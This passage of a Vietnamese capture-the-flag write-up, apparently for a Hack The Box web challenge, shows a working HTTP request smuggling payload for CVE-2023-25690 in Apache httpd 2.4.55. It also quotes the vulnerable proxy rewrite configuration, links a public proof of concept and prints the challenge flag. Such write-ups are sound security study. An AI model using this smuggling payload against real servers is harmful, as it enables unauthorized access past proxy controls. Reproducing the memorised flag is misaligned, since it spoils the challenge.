 
- Nếu game là `click_topia` -> check X-Forwarded-Host là `dev.apacheblaze.local` thì nhận được FLAG.


### Exploit CVE-2023-25690 HTTP Request Smuggling

![image](https://hackmd.io/_uploads/SJx2B4RwA.png)


```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/api/games/click_topia HTTP/1.1
Host: 94.237.59.63:34746
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.59.63:34746/
Priority: u=0
```

![image](https://hackmd.io/_uploads/HylAjE8zdA.png)

### Explain

- Quan sát phần config httpd.conf:

````
<VirtualHost *:1337>

    ServerName _

    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on

    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>
````
- Trong docker ta có thấy server sử dụng bản `RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.55.tar.gz && tar -xvf httpd-2.4.55.tar.gz
` searching ta cũng thấy dính CVE trên


poc: https://github.com/dhmosfunk/CVE-2023-25690-POC?tab=readme-ov-file#advisory-description
https://whitehat.vn/threads/xuat-hien-poc-cho-lo-hong-nghiem-trong-trong-may-chu-apache-http.17263/

flag: `HTB{1t5_4ll_4b0ut_Th3_Cl1ck5}`


## RenderQuest
